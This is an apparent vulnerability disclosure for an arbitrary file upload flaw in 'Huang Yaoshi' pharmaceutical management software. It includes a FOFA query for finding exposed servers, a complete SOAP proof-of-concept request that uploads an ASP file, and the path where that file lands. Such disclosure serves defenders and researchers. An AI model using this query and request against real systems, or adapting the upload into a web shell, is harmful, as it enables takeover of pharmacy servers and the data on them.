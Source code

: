 ## fofa
```
body="XSDService.asmx"
```
![image](https://github.com/user-attachments/assets/b9d2708e-7429-47c3-a346-38f380def928)

## product

 Huang Yaoshi Pharmaceutical Management Software

## Vendor of Product

https://product.11467.com/info/2149952.htm

## VERSION

 Huang Yaoshi Pharmaceutical Management Software <= 16.0

## Vulnerability Type

File Upload

## Description
"Huang Yaoshi" pharmaceutical management software UploadFile has arbitrary file upload vulnerability. Attackers can upload arbitrary files and gain server privileges



## POC：
```
POST /XSDService.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/UploadFile"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <UploadFile xmlns="http://tempuri.org/">
      <filePath></filePath>
      <fileName>1.asp</fileName>
      <buffer>PCUgcmVzcG9uc2Uud3JpdGUoImhlbGxvIHdvcmxkIiklPg==</buffer>
      <Offset>1111</Offset>
    </UploadFile>
  </soap:Body>
</soap:Envelope>
```
![image](https://github.com/user-attachments/assets/2a0bd71d-3282-4c6d-8991-b5d0414a02ef)

Then you can find the uploaded file in the following directory of the website: /Upload2015/1.asp
![image](https://github.com/user-attachments/assets/023c6bdf-9b77-4997-bc2c-df016c5a3861)






